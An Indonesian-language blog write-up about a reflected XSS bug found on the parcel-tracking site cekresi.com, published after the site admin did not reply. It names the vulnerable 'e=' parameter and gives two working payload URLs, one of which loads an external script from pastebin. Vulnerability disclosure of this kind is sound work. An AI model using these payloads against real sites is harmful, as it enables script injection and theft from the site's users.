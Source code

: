 ```yaml
---
title: "XSS on Cekresi.com"
author: "Tan My ID"
tags: ["Web", "WriteUp", "XSS"]
date: 2019-07-24T06:13:55+07:00
draft: false
---
```


Hai lur, kali ini sedikit tulisan tentang salah satu bug yang saya temukan pada website [CekResi.com](https://cekresi.com/) ya karena ndak ada balasan email dari dari admin web tersebut, ya udah ku **write up** aja daripada ku simpan sendiri hehe.

{{< figure src="https://cekresi.com/images/cek-resi-logo.png" alt="cekresi.com">}}
CekResi.com sendiri adalah website yang populer untuk melakukan tracking barang yang dikirim atau diterima lewat nomer RESI yang di berikan dari kantor pemaketan.

Awal aku menemukan bug ini ketika disuruh atasanku mengecek resi pengiriman dokumen ke kantor pusat tempat aku bekerja, nah aku inget ada website [CekResi.com](https://cekresi.com/) untuk sekedar mentracking barang sudah sampai mana. Nah kumasukkan nomer resinya dan mengetahui bahwa paket sudah sampai ke Jakarta. Aku ingat disana ada form input nomer resi, ku coba isi dengan payload XSS sederhana, namun gagal.

Tidak berhenti di situ, saya mencoba menginstall firefox quantum dan hackbar quantum, kebetulan di sana ada **auto input parameter** dengan script XSS. Dan ternyata aku menemukan sebuah parameter dimana bisa di masukkan payload XSS.

Parameter yang ku temukan seperti berikut **https://cekresi.com/m/index?viewstate=&e=&noresi=** pada parameter `e=` disitu saya menyisipkan payload XSS sederhanya **&quot;&gt;&lt;script&gt;prompt(document.domain);&lt;/script&gt;** untuk memunculkan nama domain dari website **cekresi.com** sehingga url nya menjadi seperti ini :
```
https://cekresi.com/m/index?viewstate=&e="><script>prompt(document.domain);</script>&noresi=TAN
```
Berikut penampakannya :
{{< figure src="https://raw.githubusercontent.com/tanmyid/go-blog/master/img/xss-cekresi/xss-cekresi.png" alt="XSS ">}}

Tak sampai disitu, saya juga mencoba untuk menggunakan script html dalam XSS kali ini dan ternyata berhasil. Berikut payloadnya :
```
https://cekresi.com/m/index?viewstate=&e="><script src=https://pastebin.com/raw/mUBsAPXz/></script>&noresi=TAN
```
Berikut penampakannya :
{{< figure src="https://raw.githubusercontent.com/tanmyid/go-blog/master/img/xss-cekresi/xss-cekresi-2.png" alt="XSS ">}}

Eh iya lupa, ini hanya berlaku pada browser mozilla firefox ya, kalian pasti sudah tau alasannya dong. Nah semoga bermanfaat bagi kalian. Terima Kasih.

